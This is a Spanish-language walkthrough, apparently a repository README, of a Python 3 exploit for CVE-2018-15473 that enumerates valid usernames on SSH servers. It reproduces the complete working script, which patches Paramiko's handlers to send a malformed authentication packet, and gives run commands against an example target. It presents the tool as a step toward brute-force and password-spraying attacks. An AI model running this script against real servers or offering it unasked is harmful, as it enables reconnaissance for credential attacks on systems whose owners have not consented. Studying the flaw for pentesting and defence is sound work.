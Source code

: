 
---

# Información general

Este script explota la vulnerabilidad **CVE-2018-15473** en servidores SSH.  
La vulnerabilidad consiste en que **el servidor SSH responde distinto según si el usuario existe o no**, lo que permite enumerar usuarios válidos en un sistema remoto.

> Esto es útil para un pentester, porque saber qué usuarios existen permite luego ataques de fuerza bruta o password spraying.

El script está adaptado a **Python 3** y usa la librería **Paramiko**, que permite interactuar con SSH desde Python.

---

## Dependencias

Para que funcione necesitas instalar `paramiko`:

```bash
pip install paramiko
```

---

## Cómo usarlo

```bash
python3 ssh_enum.py <target> -p <port> <username>
```

Ejemplo:

```bash
python3 ssh_enum.py 192.168.1.74 -p 22 root
```

- Si el usuario existe → `[+] root es un usuario válido`
    
- Si no existe → `[-] root no es un usuario válido`
    

---

## Explicación del script línea por línea

### Importaciones y clase de error

```python
import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass
```

- Importa librerías necesarias.
    
- Define un error personalizado `InvalidUsername` para manejar usuarios inválidos.
    

---

### Funciones “maliciosas” para manipular Paramiko

```python
def add_boolean(*args, **kwargs):
    pass
```

- Esta función reemplaza temporalmente `Message.add_boolean` de Paramiko.
    
- Se usa para **malformar el paquete SSH**, no hace nada por sí misma, pero evita que Paramiko valide correctamente los mensajes.
    

---

```python
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]
```

- Guarda la función original que maneja `MSG_SERVICE_ACCEPT` (mensaje de aceptación de servicio SSH).
    

---

```python
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)
```

- Sobrescribe temporalmente el manejo de `MSG_SERVICE_ACCEPT` para usar nuestra función maliciosa.
    
- Esto permite enviar un paquete que **provoca que el servidor revele si el usuario existe o no**.
    

---

```python
def invalid_username(*args, **kwargs):
    raise InvalidUsername()
```

- Si el servidor indica que el usuario es inválido, lanza la excepción personalizada.
    

---

```python
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username
```

- Aquí es donde **Paramiko se “engaña” para explotar la vulnerabilidad**:
    
    - `MSG_SERVICE_ACCEPT` → ahora usa nuestro `service_accept`.
        
    - `MSG_USERAUTH_FAILURE` → lanza `InvalidUsername` si falla la autenticación.
        

---

### Función que realiza la verificación

```python
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, int(args.port)))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print('[!] Fallo en la conexión SSH')
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print(f"[-] {username} no es un usuario válido")
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {username} es un usuario válido")
```

**Qué hace esta función:**

1. Conecta al servidor SSH.
    
2. Inicia el cliente SSH (`start_client()`).
    
3. Intenta autenticarse usando una **clave pública generada al vuelo**.
    
    - Si el usuario **no existe** → cae en `InvalidUsername`.
        
    - Si el usuario **existe pero la clave es inválida** → cae en `AuthenticationException`, y eso confirma que el usuario **sí existe**.
        

---

### Configuración de logging

```python
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())
```

- Desactiva los mensajes de log de Paramiko para que la salida sea limpia.
    

---

### Manejo de argumentos

```python
parser = argparse.ArgumentParser(description='SSH User Enumeration...')
parser.add_argument('target', help="Dirección IP del sistema objetivo")
parser.add_argument('-p', '--port', default=22, help="Introduce puerto SSH")
parser.add_argument('username', help="Usuario que se quiere validar")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()
```

- Define los argumentos que el script acepta: IP objetivo, puerto y usuario.
    
- Si no se pasan argumentos, muestra ayuda y termina.
    

---

### Ejecución final

```python
check_user(args.username)
```

- Llama a la función que verifica si el usuario existe.
    

---

## Resumen del flujo

1. Conecta al servidor SSH.
    
2. Manipula internamente Paramiko para enviar un paquete especial.
    
3. Intenta autenticarse con un usuario dado y una clave aleatoria.
    
4. Dependiendo de la respuesta del servidor:
    
    - Diferente respuesta → usuario **válido**.
        
    - Otra respuesta → usuario **inválido**.
        

---
